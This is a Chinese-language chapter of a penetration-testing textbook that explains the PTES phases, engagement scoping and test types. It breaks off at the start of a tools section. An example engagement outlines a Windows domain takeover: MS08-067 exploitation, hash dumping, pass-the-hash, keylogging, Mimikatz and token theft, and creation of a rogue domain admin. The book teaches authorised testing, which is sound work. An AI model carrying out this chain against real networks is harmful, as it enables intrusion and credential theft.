

# 第一章：理解渗透测试方法论

在急于行动之前，在本章中，我们将实际定义渗透测试是什么，以及不是什么，**渗透测试执行标准**（**PTES**）是什么，以及将使用的工具。这些信息将作为未来参与的指南。本章将帮助指导新的评估人员和希望建立自己参与的组织。如果你想直接进入代码和细节，我建议跳到第二章，*Python 脚本的基础*。不过，我要提醒你，阅读本章的好处在于它将提供一个框架和思维模式，帮助你区分一个脚本小子和一个专业人士。所以，让我们从渗透测试是什么开始。

最重要的是，这些工具和技术只能在您拥有或获得运行这些工具的许可的环境中执行。永远不要在未经授权的环境中练习这些技术；请记住，未经许可进行渗透测试是非法的，你可能会因此入狱。

### 注意

要练习初始章节中列出的内容，请安装一个虚拟化套件，如 VMware Player ([`www.vmware.com/products/player`](http://www.vmware.com/products/player)) 或 Oracle VirtualBox ([`www.oracle.com/technetwork/server-storage/virtualbox/downloads/index.html`](http://www.oracle.com/technetwork/server-storage/virtualbox/downloads/index.html))。创建当前版本的 Kali Linux ([`www.kali.org/downloads/`](https://www.kali.org/downloads/))、Samurai Web Testing Framework ([`samurai.inguardians.com/`](http://samurai.inguardians.com/))和 Metasploitable ([`www.offensive-security.com/metasploit-unleashed/Requirements`](http://www.offensive-security.com/metasploit-unleashed/Requirements))的虚拟机（VM）。您可以使用 Kali 系统中的 Metasploitable 盒子对这些进行测试。提供的最后一个链接中有许多与这些工具相关的教程和配置说明；如果每章需要额外的工具，它们将在那里进行突出显示。

# 渗透测试概述

对于渗透测试的概念存在着巨大的误解。即使是最近进入该领域的专业人士也普遍存在这种误解。新的渗透测试人员或要求进行渗透测试的专业人士经常说，这些测试证明了漏洞的可利用性，环境易受攻击的程度，或者只是漏洞的存在。这种误解会在项目的范围、来源和执行中产生实际影响。此外，这种错误的看法包括认为渗透测试将找到所有的漏洞，每次都能找到未知的零日漏洞，而且无论采取了什么控制措施，所有目标都将始终得到满足。

渗透测试是评估组织的安全策略保护关键数据免受恶意行为者行为影响的实践。安全策略是组织的全面信息安全计划。它侧重于维护组织关键数据和资源的机密性、完整性和可用性。这是通过使用人员、流程和技术的组合来将风险降低到可接受的水平。渗透测试的第一种和第二种定义之间的区别是天壤之别。

第一个定义仅关注漏洞；这意味着人们期望评估者将执行的活动与利用或发现漏洞或简单的配置错误有关。它没有考虑到组织可能存在的与政策、流程或不安全关系相关的不良做法。这些先入为主的观念经常对组织和新评估者都产生重大影响。

组织领导不会制定与突破与关键数据存储库相关的访问控制或识别关键数据位置相关的目标。最初还会有一种信念，即**入侵保护系统**（**IPS**）和**入侵检测系统**（**IDS**）是防止妥协的关键；所有经验丰富的评估者都知道这不是真的。此外，评估可能没有以提供现实结果的方式进行范围界定。这种误解最具破坏性的结果是，组织可能无法确定评估者是否缺乏执行所需的参与所必需的技能。

### 注意

同样，新的评估者错误地认为**漏洞管理解决方案**（**VMS**）如 Nexpose、Nessus、Qualys 或其他解决方案将识别进入环境的途径。这些工具可能会突出系统的入侵途径，但误报率和真负率很高。误报是指将某物标识为有漏洞，但实际上并没有。误报的相反是真负，这意味着将某物标识为安全，但实际上是有漏洞的。

如果漏洞不在数据库中，则系统将无法识别可能授予访问权限的漏洞。VMS 不会突出与不良做法或流程相关的链接攻击，这将被归类为弱点或漏洞。使用这些工具进行渗透测试会使它们变得非常嘈杂，并鼓励评估者模拟相对过时的攻击。

大多数恶意行为者利用最容易的路径，通常与著名的 MS08-067 或 MS06-40 等远程代码利用无关。相反，评估者应该退一步，寻找可能提供不被注意的访问权限的不安全关联和配置。大多数资深评估者在渗透测试期间不使用 VMS 工具，而是专注于手动评估环境。

许多这些误解直接与其他类型的参与相关。这来自其他安全评估被宣传为渗透测试，或者来自人们运行或接收这些参与的结果。在接下来的部分中，列举了一些经常被误认为是渗透测试的评估样本。这应该足以突出实际渗透测试与其他安全评估和活动之间的差异。

# 了解渗透测试的本质

其他类型的评估和活动经常被宣传或误认为是渗透测试。这些类型的参与包括漏洞评估、大规模逆向工程项目和黑客攻击。让我们依次讨论每一种，以便了解渗透测试的定位。

## 漏洞评估

漏洞评估（VA）使用 VMS 扫描漏洞。好的 VA 然后使用评估者消除误报，之后可以根据业务影响和利用可能性调整发现的实际风险评级。通常安全顾问或渗透测试人员执行这些评估，这可能需要实际利用这些漏洞来进行概念验证。这种类型的评估非常适合展示组织在执行修补和部署资产时的表现。关键在于这些类型的评估不是专注于从恶意行为者的角度获取对关键数据的访问权限，而是与发现漏洞相关。

## 逆向工程参与

逆向可能是渗透测试的一部分，但在今天比过去要少得多。第八章，“使用 Python、Metasploit 和 Immunity 进行利用开发”，将更详细地讨论这一点，因为这里将描述实际的利用开发。当前的渗透测试可能包括利用开发，但这是为了创建与自制代码相关的概念验证，并获取对可能存储数据的关键系统的访问权限。

相比之下，在大规模的逆向工程参与中，评估者试图证明应用程序整体易受逆向工程的影响，以及与源代码、编译和相关库相关的弱点。这些类型的参与更适合逆向工程师，他们花时间识别常见的攻击链和方法来破坏应用程序，而不是获取对关键数据的访问权限。在这个特定领域的经验水平是广泛的。通常，许多评估者从渗透测试转向这种特定的技能集，他们全职从事逆向工程。

## 黑客

黑客不是评估，而是直接利用可利用的漏洞；它可能与恶意活动有关，也可能是为了研究而进行。黑客的目的不是获取对关键数据的访问权限，而是纯粹破解漏洞。黑客有许多定义，通常与渗透测试直接相关，但与黑客相关的目标没有具体或明确的目标。现在已经勾勒出了渗透测试和其他活动之间的一些重大区别，可以突出实现目标的方法论。

# 评估方法学

与渗透测试相关的评估方法有多种。一些方法学的例子包括开放源代码安全测试方法手册（OSSTMM）、用于 Web 评估的开放 Web 应用安全项目（OWASP）、国家标准与技术研究所（NIST）的特别出版物 800-115 技术指南信息安全测试和评估，以及 PTES。我们在本书中将专注于的方法学是 PTES，因为它是新评估者的可靠资源。

# 渗透测试执行标准

PTES 有七个不同的阶段，即预交互、情报收集、威胁建模、漏洞分析、利用、后利用和报告。每次参与都会在某种程度上遵循这些阶段，但经验丰富的评估者将会顺利且相对无缝地从一个阶段过渡到下一个。使用方法学的最大好处是允许评估者全面和一致地评估环境。一致性评估意味着几件事情：

+   评估者不太可能错过重大漏洞

+   它可以减轻导致评估者花费过多时间集中在不会推动参与前进的区域的隧道视野

+   这意味着无论客户或环境如何，评估者都不会带着成见去参与

+   评估者每次都会提供相同水平的能力给一个环境

+   每次客户都会收到高质量的产品，评估者错过细节的机会很少

所有方法或框架都提供这些好处，但是 PTES 像 OWASP 一样，对于新的评估者有额外的好处。在 PTES 中，有许多技术指南与评估者可能遇到的不同环境相关。在这些技术指南中，有关于如何使用行业标准工具来处理和评估环境的建议。

需要注意的是，技术指南不是操作手册；它们不会为评估者提供从头到尾执行参与的手段。只有经验和对环境的接触才能为评估者提供处理他/她遇到的大多数情况的手段。应该指出，没有两个环境是相同的；每个组织、公司或企业都有细微差别。这些差异意味着即使是非常有经验的评估者也会遇到困难的时刻。当标准的利用方式不起作用时，测试人员可能会有局限性；坚持方法论将防止这种情况发生。

在高度安全的环境中，评估者通常需要变得有创意，并链接利用来实现设定的目标。我的一位老队友曾经优雅地定义了创意和复杂的利用方式：“它们是渗透测试人员绝望的表现。”这个幽默的类比也突出了评估者何时会提升自己的技能。

评估者如何知道何时需要执行这些复杂的利用方式，是通过知道所有简单的方法都失败了；正如真正的攻击者会选择最不费力的路径，评估者也应该如此。只有在这种情况下失败时，评估者才应该开始提升必要的技能水平。作为评估者，你正在评估一个环境抵抗恶意行为的能力。

这些保护措施就像建筑中的砖块，随着时间的推移而建立，形成了一种安全的姿态。就像美式橄榄球一样，如果一个组织没有掌握强大防御的基本组成部分，它就无法抵御花招。因此，我们作为评估者应该从底层开始，逐步解决问题。

这并不意味着一旦找到一条路径，评估者就应该停下来；他/她应该确定关键数据位置，并证明这些数据可以被破坏。评估者还应该指出真正的攻击者可能采取的其他路径来达到关键数据。能够识别与破坏关键数据相关的多条路径和方法，再次需要一种系统的方法。七个阶段是控制参与流程的一个例子。

## 预先交互

PTES 的第一个阶段是所有预参与工作，毫无疑问，这是一个顺利和成功参与的最重要阶段。在这个阶段采取任何捷径或过快完成这个阶段都会对评估的其余部分产生重大影响。这个阶段通常是由一个组织创建一个评估请求开始的。通常请求的评估示例可以分为以下几个广泛的类别：

+   网络应用程序

+   内部网络

+   外部网络

+   物理

+   社会工程电话

+   网络钓鱼

+   **网络电话**（**VOIP**）

+   无线

+   移动应用程序

组织可能会联系评估员目录或提供**招标文件**（**RFP**），其中详细说明了环境类型、所需评估和所期望交付的内容。根据这份招标文件，多家评估公司或个人**有限责任公司**（**LLC**）将对与环境详细信息相关的工作进行竞标。通常，最符合所请求工作、价格、相关范围、时间表和能力的投标方将赢得该工作。

**工作声明**（**SOW**）通常是**参与函**（**EL**）或合同的一部分，其中详细说明将要执行的工作和最终产品，同时包含所有必要的法律细节。一旦签署了 EL，就可以开始对范围进行微调。通常，这些讨论是评估团队第一次遇到范围蔓延。这是客户可能试图添加或扩展承诺的工作水平以获得比承诺支付更多的情况。这通常不是故意的，但在罕见情况下，这是由于招标文件的撰写者、评估员提出的问题的答复以及最终的 EL 或 SOW 之间的沟通不畅。

通常，可以批准对工作进行小的调整或延伸，但较大的要求会被推迟，因为这可能被视为无偿工作。然后，最终范围将被记录下来，用于将要执行的参与部分。有时，单个 EL 将涵盖多个参与部分，并且可能需要进行多次后续讨论。在这个阶段要记住的重要事情是，作为评估员，你正在与客户合作，我们应该乐于助人，灵活地帮助客户实现其目标。

除了在初始参与范围界定期间产生的范围蔓延外，在执行参与过程中通常还存在客户增加范围的机会。这通常是客户在测试开始后要求工作延期或额外资源测试。对范围的任何修改不仅应该经过仔细考虑，因为涉及资源和时间，还应该以某种书面形式完成，例如电子邮件、签署和授权的信函，或其他不可否认的请求确认。

最重要的是，任何范围调整都应由有权做出此类决定的人员完成。这些考虑都是为了保持参与的合法性和安全性。签署这些文件的人必须了解与满足截止日期、评估特定环境和使利益相关者满意相关的风险。

在这个特定阶段定义了参与的目标，以及可能需要其他方面批准的审批。如果公司将其环境托管在云提供商基础设施或其他共享资源上，则还需要从该组织获得批准。通常，批准活动的所有方通常需要测试的开始和结束日期，以及源**互联网协议**（**IP**）地址，以便他们可以验证活动并非真正恶意。

评估开始时必须确定的其他事项是正常报告评估和紧急情况的联系人。如果评估员的活动被认为已经使某个资源下线，评估员需要立即与联系人跟进。此外，如果发现了关键漏洞，或者认为某个资源已经被真正的恶意行为者入侵，评估员应尽可能立即联系主要联系人，如果不行，则联系紧急联系人。

这种联系应该在评估者捕获了必要的概念证明后进行，以表明资源可能已经被入侵或存在关键漏洞。在联系之前完成概念证明的原因是，报告这些问题通常意味着资源被下线。一旦资源下线，评估者可能无法跟进并证明他/她在最终报告中所做的陈述。

### 注意

概念证明通常是特定数据类型、事件序列、暴露、利用或妥协的屏幕截图。

除了报告意外和关键事件外，还应安排定期状态会议。这可以是每周、每天，或更频繁或更少频繁，具体取决于客户的要求。状态会议应涵盖评估者已经完成的工作、计划要做的工作以及可能影响最终报告交付的时间表上的任何偏差。

与产品和最终报告交付相关的是，必须有一种安全的方法来交付参与的详细信息。平衡来自以下因素，即客户的能力和知识水平、评估团队可用的解决方案、数据可以做到多安全以及客户的能力和要求。最好的两个选择是安全交付服务器或**Pretty Good Privacy**（**PGP**）加密。有时，这些选项不可用，或者其中一方无法实施或使用它们。在这一点上，应确定其他形式的数据保护。

这里有一个重要的警告，即受密码保护的文档、便携式文档格式和 zip 文件通常没有强大的加密形式，但它们总比没有好。这些仍然需要密码来回传以打开数据。密码应尽可能通过其他方法或与实际数据不同的渠道传输，例如，如果数据通过电子邮件发送，密码应通过电话、短信或信鸽提供。在后面的章节中，当我们讨论针对网络界面的密码喷洒攻击和突破外围的方法时，将突出与此相关的实际风险。预参与讨论的最后一部分涉及测试将如何进行：白盒、灰盒或黑盒。

### 白盒测试

白盒测试也被称为清晰盒测试或水晶盒测试。这个术语可以是这三者之一，但基本上意味着一个知情的攻击者或知情的内部人员。关于适当的术语有多种争论，但归根结底，这种类型的评估突出了与恶意内部人员或攻击者有关的风险，他们可以访问到显著暴露的信息。评估者提供了关于网络上的内容、运行方式甚至潜在弱点（如基础设施设计、IP 地址和子网）的详细信息。在极短的时间内，这种类型的评估非常有益。从完全暴露的信息或完全拉开帷幕的情况中退后一步是灰盒格式。

### 灰盒测试

遵循灰盒格式的评估者提供了基本信息。这包括目标、可接受测试的范围以及操作系统或嵌入式设备品牌。组织通常还会列出已经部署的入侵检测系统/入侵防御系统，以便如果评估者开始看到错误的结果，他/她可以确定原因。灰盒评估是最常见的评估类型，组织提供一些信息以提高结果的准确性并增加反馈的及时性；最终，这可能会降低参与成本。

### 黑盒测试

评估员将遇到的黑盒接触数量大致与白盒接触相同，它们是光谱的完全相反的一面。评估员除了要评估的组织之外，不会得到任何信息。评估员将从广泛的**开源情报**（**OSINT**）收集中识别资源。只有高级评估员才能执行这些类型的接触，因为他们必须确定目标在外部是活动的区域，并且在内部要保持极度安静。

目标始终在初始研究后由请求组织验证为经授权或拥有的，然后才进行外部评估的测试。黑盒测试通常是双盲测试的一部分，双盲测试也被称为不仅是对其环境进行测试，还是对组织的监控和事件响应能力的评估。

### 双盲测试

双盲测试通常是黑盒样式接触的一部分，但它也可以与灰盒和白盒接触一起进行。灰盒和白盒接触的关键在于，测试期间的控制、攻击向量和其他信息要比从防御团队保密困难得多。被视为双盲的接触必须在执行接触之前得到很好的建立，这应该包括事后讨论和验证检测到了什么具体活动以及应该检测到了什么。这些类型的接触的结果非常有助于确定防御团队的工具调整得有多好以及流程中的潜在漏洞。只有在组织具有成熟的安全姿态时，才应执行双盲测试。

## 情报收集

这是 PTES 的第二阶段，如果组织希望评估团队确定其外部暴露，这一点尤为重要。这在与外部边界测试相关的黑盒或灰盒接触中非常常见。在接触的这个阶段，评估员将使用诸如**美国互联网编号注册处**（**ARIN**）或其他地区注册处、信息库查询工具（如 WhoIs、Shodan、Robtex）、社交媒体网站以及 Recon-ng 和**Google 黑客数据库**（**GHDB**）等注册处。

除了外部评估，此阶段收集的数据非常适合用于建立社会工程和物理接触的档案。关于组织及其人员的发现的组件，将为评估员提供与员工互动的手段。这样做是希望员工会透露信息或以假借名义提取关键数据。对于技术接触，对工作网站、公司网站、地区博客和校园地图的研究可以帮助建立字典攻击的单词列表。特定的数据集，如当地的体育队、球员姓名、街道名称和公司首字母缩写，通常作为密码非常受欢迎。

### 注意

韦氏词典将“借口”定义为所谓的目的或动机，或者为了掩盖真正意图或事态而假装的外表。

像 Cewl 这样的工具可以用来从这些网站上提取单词，然后可以使用 John the Ripper 对数据进行排列，进行字符替换。这些列表对于针对登录界面的字典攻击或破解从组织中提取的哈希非常有用。

### 注意

排列在密码攻击和接口密码猜测攻击中非常常见。韦氏词典将“排列”定义为某物存在或可以排列的许多不同方式或形式之一。

对评估者有利的其他细节包括组织在招聘广告、员工 LinkedIn 个人资料、技术合作伙伴和最近的新闻文章中列出的技术。这将为评估者提供关于他/她可能遇到的资产类型和即将到来的主要升级的情报。这使得现场工作可以更有针对性，并且在执行之前可以进行更深入的研究。

## 威胁建模

PTES 的第三阶段是威胁建模，对于大多数参与来说，这个阶段被跳过了。威胁建模更常见地是作为一个单独的参与的一部分，用于列举组织可能面临的潜在威胁，基于多种因素。这些数据用于帮助建立案例研究，以识别真正的威胁，这些威胁会利用组织的漏洞转化为风险。通常，这些案例研究用于量化特定的渗透测试，以确定安全策略的坚定程度以及未被考虑的因素。

研究的组成部分扩展到标准情报收集之外，包括相关业务、业务模式、第三方、声誉和与见解性主题相关的新闻文章。除了已发现的内容外，总会有一些评估者无法确定的因素，这是由于时间、暴露和已记录的事实。威胁建模在很大程度上是理论性的，但它是基于发现的指标和市场上过去的事件。

当威胁建模作为渗透测试的一部分时，情报收集阶段和威胁建模阶段的细节被回溯到预参与阶段。确定的细节有助于建立一种参与并揭示评估者应该冒充的恶意行为者的类型。组织面临的常见威胁类型如下：

+   国家

+   有组织犯罪

+   黑客

+   脚本小子

+   骇客活动分子

+   内部人员（有意或无意）

在评估威胁时，始终要记住以下几点，这些威胁中的任何一种都可能是内部人员。只需一封钓鱼邮件，或者一个不满的员工公布凭据或访问，组织就可能会面临威胁。内部人员可能无意中提供访问权限的其他方式包括技术论坛、支持团队和博客。

技术和行政支持团队经常在博客、论坛和其他地方发布配置或设置以寻求帮助。每当这种情况发生时，内部数据就会暴露给外部，而且通常这些配置包含加密或未加密的凭据、访问控制或其他安全功能。

那么，这是否意味着每个组织都受到内部人员的威胁，而经验范围可能不仅限于实际内部人员？内部人员也是最难以减轻的威胁。大多数渗透测试不包括模拟内部人员的凭证。根据我的经验，只有具有成熟安全姿态的组织才会这样做。通常只有通过多种安全评估，包括通过渗透测试模拟多种威胁，才能达到这种状态。

大多数组织不支持内部凭证评估，除非他们经历了多次非凭证参与，发现已经得到了缓解。即使是这样，也只有那些有强烈愿望模拟真实威胁并得到董事会支持的组织才会这样做。除了内部人员，其他威胁可以通过查看多种因素来评估；过去事件的关联可以通过查看 Verizon **数据泄露调查报告**（**DBIR**）找到一个例子。

Verizon DBIR 使用报告的妥协并汇总结果，按市场归因于最常见的事件类型。然而，这些信息应该放在上下文中，因为这只是针对被捕获或报告的事件。通常，被捕获的事件可能不是最初导致后续妥协的方式。

市场的威胁每年都在变化，因此，一年创建的报告的结果对于下一年的研究是没有用的。因此，任何对这些信息感兴趣的读者都应该从[`www.verizonenterprise.com/DBIR/`](http://www.verizonenterprise.com/DBIR/)下载当前版本。此外，一定要选择基于其他相关信息和报告的额外研究来模拟哪个向量。基于单一形式的研究的假设执行评估是不专业的。

大多数时候，组织已经知道他们需要或想要什么类型的参与。这个阶段的互动和描述的研究通常是行业专家所要求的，而不是新的评估者。因此，如果你开始做这项工作时，看到很少有要求包括这个工作阶段的评估，至少最初不要感到惊讶。

## 漏洞分析

直到这个阶段，大多数，如果不是所有的研究都没有触及组织资源；相反，细节是从其他存储库中提取的。在 PTES 的第四阶段，评估者将要确定进一步研究测试的可行目标。这直接涉及端口扫描、横幅抓取、暴露的服务、系统和服务响应以及版本识别。这些项目虽然看似微小，但却是获取对组织的访问的支点。

从技术角度成为一名优秀的评估者的秘诀就在于这个阶段。原因是评估者大部分时间都在这里度过，特别是在职业生涯的早期。评估者研究暴露了什么，哪些漏洞是可行的，以及可以用什么方法来利用这些系统。花了多年时间做这个工作的评估者通常会在这个阶段加速，因为他们有经验找到目标攻击和获取访问的方法。不要被这个所迷惑，因为首先，他们通过经验花了很多年时间整理这些数据，其次，总会有情况，即使是一名优秀的评估者也会在这个阶段花费数小时，因为一个组织可能有独特或强化的姿态。

渗透测试的伟大秘密通常不会在电影、杂志和/或书籍中传达，即渗透测试主要是研究、磨砺和撰写报告。如果我必须估计一名优秀的新评估者在参与过程中花费的平均时间百分比，70%将用于研究或磨砺以找到适用的目标或可行的漏洞，15%用于与客户的沟通，10%用于撰写报告，5%用于利用。尽管如此，随着评估者获得更多经验，这些百分比会发生变化。

大多数失败或遭遇糟糕的评估者都是因为在各个阶段上推进，而不是执行有能力的研究。在这里花费所需的时间的好处是与利用相关的下一个阶段将非常迅速。评估者和恶意行为者都知道的一件事是，一旦在组织中占据了立足点，基本上就结束了。第三章*使用 Nmap、Scapy 和 Python 识别目标*详细介绍了在这个阶段完成的活动。

## 利用

第五阶段是利用阶段，这才是真正开始有趣的地方。大多数章节都集中在前一阶段的漏洞分析，或者这个阶段。这个阶段是所有之前工作的结果，实际上获得对系统的访问权限。获得系统访问权限的常见术语是 popped、shelled、cracked 或 exploited。当您听到或读到这些术语时，您就知道自己应该获得对系统的访问权限。

利用不仅仅意味着通过一段代码、远程利用、创建利用程序或绕过防病毒软件来访问系统。它也可能是直接使用默认或弱凭证登录系统。尽管许多新评估者认为这不太理想，但经验丰富的评估者会尝试找到通过本机协议和访问方式访问主机的方法。这是因为本机访问不太可能被检测到，而且它更接近恶意行为者可能正在执行的真实活动。

如果您是新手渗透测试人员，在利用过程中会有一些特定的时刻让您非常兴奋，这些通常被视为目标：

+   第一次获得 shell

+   第一次利用 OWASP 前 10 名漏洞

+   第一次编写自己的利用程序

+   第一次发现零日漏洞

这些所谓的目标通常是评估者经验的衡量标准，甚至在组织团队内部也是如此。在实现了这些首次利用目标之后，您将会努力提升自己的技能水平。

一旦您获得对系统的访问权限，您需要利用这种访问权限。在观察资深专业人员和新的评估者之间的区别时，不是利用，而是后期利用。原因在于初始访问并不能让您获得数据，而后续的枢轴和后期利用通常可以。

### 注意

枢轴是在评估过程中利用新位置来评估通常无法访问的资源的方法。大多数人将枢轴等同于在 Metasploit 中设置路由，但它也与从不同的受损设备攻击或评估资源有关。

## 后期利用

在所有阶段中，这是评估者花费时间的变化。新评估者通常在第四阶段或漏洞分析阶段花费更多时间，而经验丰富的评估者在这里花费了大量时间。第六阶段也被称为后期利用阶段；权限升级、寻找凭证、提取数据和枢轴都在这里完成。

这是评估者有机会通过证明所达到的访问级别、访问的关键数据的数量和类型，以及绕过的安全控制来证明对组织的风险。所有这些都是后期利用阶段的典型特征。

就像第五阶段一样，第六阶段有特定的事件通常是新评估者的目标。就像利用目标一样，一旦完成了这些后期利用目标，您将会追求在这个安全专业领域中更复杂的成就。

以下是新评估者和有能力的评估者之间的衡量标准的例子：

+   第一次在 Windows、Linux、Unix 或 Mac 操作系统上手动提升权限

+   第一次获得域管理员访问权限

+   第一次修改或生成 Metasploit 模块

后期利用阶段包括与提升权限、提取数据、配置文件、创建持久性、解析用户数据和配置以及清理相关的活动。在系统被访问后执行的所有活动，并转移到系统检查阶段都与后期利用有关。一旦评估结束，所达到的所有访问级别、访问的关键数据和绕过的安全控制都会在一份报告中得到突出显示。

## 报告

与渗透测试相关的最重要阶段不仅仅是 PTES，还有报告。在一天结束时，您的客户要求并支付的是一份报告。在参与结束时，他/她能拿到手的只有报告。报告也是将评估员在环境中确定的风险转化为语言的工具。

一份好的报告应包括一份针对首席套房人员和/或咨询委员会的执行摘要。它还应包括一个故事情节，解释在参与过程中所做的事情，实际的安全发现或弱点，以及组织已建立的积极控制。每个注意到的安全发现都应在可能的情况下包括一个概念验证。

概念验证就是这样；通过利用来证明存在安全状态的例外。因此，每个确定的发现都应包括与所进行的活动相关的屏幕截图，例如弱密码、被利用的系统和访问的关键数据。

与组织中确定的安全发现一样，任何积极的发现都需要被记录和描述。积极的发现有助于告诉组织实际上对模拟恶意行为产生了什么影响。它还告诉组织应该在哪里进行投资，因为报告和参与提供了它正在起作用的有形证据。

## 一个示例参与

以下部分突出了评估员如何在高层次上实现访问、提升权限，并可能获得对关键数据的访问。这个示例应该为本章和接下来的章节涵盖的工具提供背景。需要注意的是，PTES 的第四、五和六阶段，即漏洞分析、利用和后利用阶段，是重复的。这些阶段中的每一个都将在评估过程中执行。为了更好地突出这一点，以下情景是今天新评估员进行的非常常见的利用训练，显示了使用了哪些工具。这不是为了展示如何自行完成这些命令，而是为了突出阶段流程，以及每个阶段使用的工具可能是模糊的。

在进行评估时，评估员将识别漏洞，根据需要利用它们，然后在利用或后利用后提升权限并提取数据。有时，单个操作可能被视为漏洞分析和利用的组合，或利用和后利用阶段的活动。作为重复步骤的示例，评估员识别了一个 Windows XP 主机，并确定它是否存在漏洞 MS08-067，然后使用相关的 Metasploit 模块`ms08_067`对其进行利用。评估员将提升权限，然后使用`smart_hashdump`模块从被利用系统中提取哈希。然后，评估员将从提取的哈希中复制本地管理员哈希，该哈希与存储在`pwdump`哈希格式中的**安全标识符**（**SID**）500 相关联。

评估员将扫描该区域的所有主机，并使用`nmap`工具确定主机是否开放端口 445。这些可能是**传递哈希**（**PtH**）攻击的可行目标，但评估员必须确定这些主机是否具有相同的本地管理员密码。因此，评估员通过使用 Unix/Linux 工具 cat、grep 和 cut 解析输出，创建一个具有开放端口 445 的 IP 地址列表**服务器消息块**（**SMB**）通过 IP。有了这个列表，评估员使用`SMB_login` Metasploit 模块对新创建的列表中的所有主机执行 SMB 登录，使用本地管理员哈希，并将域设置为`WORKGROUP`。

每个响应成功登录的主机都将是 PtH 攻击的可行目标。 评估员必须找到具有新信息或关键数据的主机，这将有利于推进参与。 由于评估员通过 Windows XP 主机在网络上建立了立足点，他/她只需要找出域管理员是谁以及他们在哪里登录。

因此，他/她将使用`enum_domain_group_users` Metasploit 模块从 Windows XP 主机所连接的域中查询域管理员组的成员。 评估员随后可以使用名为`loggedin_users`的 community Metasploit 模块或名为`psexec_loggedin_users`或`enum_domain_users`的内置模块来确定域管理员登录的位置。 通过`smb_login`模块从主机收到成功登录消息的主机将使用任一模块和相关域名进行测试。 在其中响应具有一个域管理员用户名的主机将是最佳的攻击位置。 评估员随后可以使用`psexec` Metasploit 模块执行 PtH 攻击并在该主机上放置有效载荷。 这将使用相同的本地管理员哈希和域设置为`WORKGROUP`进行。

一旦在该系统上建立了立足点，评估员就可以确定域管理员当前是否已登录到系统，或者过去是否曾登录过。 评估员可以查询系统并识别当前登录的用户，以及他们是否活跃。 如果用户当前在会话中活跃，评估员可以使用 Metasploit 设置键盘记录器，并使用 smartlocker 模块锁定屏幕。 过去，这曾被分解为多个模块，但今天，我们更加高效。 当用户解锁屏幕时，他/她将输入帐户的凭据，然后将其提供给评估员。

如果用户当前未活跃，评估员可以尝试使用 Mimikatz 等工具从内存中提取凭据，通过将该功能加载到 Meterpreter 会话中并运行`wdigest`。 如果内存中没有凭据，评估员可以尝试通过加载 Incognito 工具到 Meterpreter 中并使用`load incognito`命令窃取仍在内存中的缓存凭据的令牌来冒充用户。 利用这种访问权限，评估员随后可以在域上创建一个新用户，然后将该用户添加到域控制器上的域管理员组中。 为了确定适用的域控制器，评估员将 ping 域名，该域名将响应 DC 的 IP 地址。

最后，评估员可以使用`add_user`命令和`add_group_user`将其新的恶意用户添加到指向 DC IP 的域管理员组中。 这个域管理员可能会在网络周围提供额外的访问权限，或者具有创建和/或修改其他帐户的能力，并根据需要提供相关访问权限。 从这些步骤中可以看出，有多个重复的三个阶段的示例。 通过以下列表，了解每个活动如何适用于特定阶段：

1.  识别 Windows XP 主机（漏洞分析）。

1.  确定 Windows XP 主机是否容易受到 MS08-067 的攻击（漏洞分析）。

1.  使用 Metasploit 的 MS08-067 漏洞攻击 Windows XP 主机（利用）。

1.  从 Windows XP 主机中提取哈希（后期利用）。

1.  扫描所有其他主机，以查找 SMB over IP 或端口 445（漏洞分析）。

1.  使用本地管理员哈希执行 SMB 登录以识别易受攻击的主机（漏洞分析/利用）。

1.  查询域控制器，以查找 Windows XP 系统上域管理员组的成员（后期利用）。

1.  识别具有与 Windows XP 主机相同的本地管理员哈希的系统上已登录的用户，以确定域管理员的登录位置（利用/后期利用）。

1.  对已登录的域管理员进行 PtH 攻击（利用）。

1.  确定域管理员在该计算机上的活动状态（后期利用）：

+   如果当前已登录，请设置键盘记录器（后期利用）

+   锁定屏幕（利用/后期利用）

+   如果凭据在内存中，请使用 Mimikatz 窃取它们，这是我们在下面介绍的一个工具（后期利用）

+   如果令牌在内存中来自缓存会话，请使用 Incognito 窃取它们（后期利用）

1.  通过 ping 域来识别域控制器（漏洞分析）。

1.  从受损系统在域控制器上创建新用户（后期利用）。

1.  从受损系统将新用户添加到域管理员组（后期利用）。

1.  识别可以访问的关键数据的新位置（漏洞分析）。

现在，经验丰富的评估员通常会在可能的情况下完成与漏洞分析相关的必要活动，并及早编目数据。因此，在评估的早期阶段，会创建具有开放端口 445、DC IP 地址和其他详细信息的主机列表。这样，如果参与的是双盲评估的一部分，评估员可以在被发现之前迅速获得特权访问。现在，评估的方法和组织已经确定，我们需要看看目前使用的工具。

# 渗透测试工具

以下是在参与过程中使用的一些常见工具，以及它们应该如何和何时使用的示例。这些工具中的许多都有进一步的解释，在第二章之后，*Python 脚本的基础*。我们无法涵盖市场上的每个工具，以及它们应该何时使用的具体情况，但这里有足够的示例来提供扎实的知识基础。在本书中，可能需要多行来显示特别长的命令示例。这些命令将使用*\*字符来指示新行。如果这些命令被复制和粘贴，它们将正常运行，因为在 Linux 和 Unix 中，命令在回车后继续。

这些工具也是根据您最有可能获得最大利用价值的基础进行组织的。在审查这些工具之后，您将了解市场上有什么，并看到可能需要自定义 Python 脚本或工具的潜在空白。通常，这些脚本只是解析和以正确格式输出所需细节的桥梁代理。其他时候，它们自动化了繁琐和费力的过程；在阅读时请记住这些因素。

## NMAP

**网络映射器**（**Nmap**）是为管理员和安全专业人员创建的第一批工具之一。它提供了行业内一些最好的功能，可以快速分析目标，并确定它们是否有可以被利用的开放端口和服务。该工具不仅为我们安全专业人员提供了与 Luna 脚本相关的额外功能，它们可以充当小型 VMS，而且还提供了利用系统的手段。

就像这些还不足以使 Nmap 成为评估者和工程师工具包中的必备工具一样，Nmap 安全扫描器项目和[`insecure.org/`](http://insecure.org/)已经为需要每天运行几次测试扫描的人设置了一个网站[`scanme.nmap.org/`](http://scanme.nmap.org/)。除了允许新的评估者每天执行几次扫描外，这个网站还可以查看组织内部可访问的端口。如果您想自己测试一下，请尝试对该网站进行标准的全连接**传输控制协议**（**TCP**）端口扫描。有关 Nmap 的其他详细信息将在第三章中讨论，*使用 Nmap、Scapy 和 Python 识别目标*。以下示例显示了如何对互联网上开放的前 10 个端口进行扫描（在执行此扫描之前，请阅读他们网站上的警告）：

```py
nmap –sT –vvv --top-ports 10 –oA scan_results scanme.nmap.org

```

## Metasploit

